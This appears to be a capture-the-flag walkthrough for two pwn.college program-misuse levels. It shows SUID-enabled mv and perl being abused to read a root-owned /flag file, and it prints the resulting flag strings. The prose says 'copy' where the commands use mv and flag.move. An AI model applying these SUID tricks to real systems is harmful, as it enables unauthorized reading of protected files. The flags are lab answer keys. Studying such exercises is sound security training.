 The `mv` utility moves the specified file to the specified destination.

We know that the `/home/hacker` directory is a persistent one, i.e. every file in this directory is unmodified through all the levels. Knowing this, we can copy the `/flag` to this directory.

```
hacker@program-misuse~level40:~$ mv /flag flag.move
```

Now, we can load level 1, and just `cat` the `flag.copy` file.

```
hacker@program-misuse~level1:~$ cat flag.move
pwn.college{cvUhsBpzWmZXH_UFdl-5Sd3uF25.0VM4EDL4ITM0EzW}
```

&nbsp;

## level 41

```
hacker@program-misuse~level41:/$ /challenge/babysuid_level41 
Welcome to /challenge/babysuid_level41!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/perl.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level41) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/perl!
```

Perl is a scripting language. As such, ew can use the following script to read the `/flag`.

```pl title="babysuid41.pl"
open(fh, "/flag");
$firstline = <fh>;
print "$firstline\n";
```

We have to use the `perl` utility to execute the script.

```
hacker@program-misuse~level41:~$ perl babysuid41.pl
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
pwn.college{ECuRXGknACrZJVi8_w0qX60_EeN.01M4EDL4ITM0EzW}
```
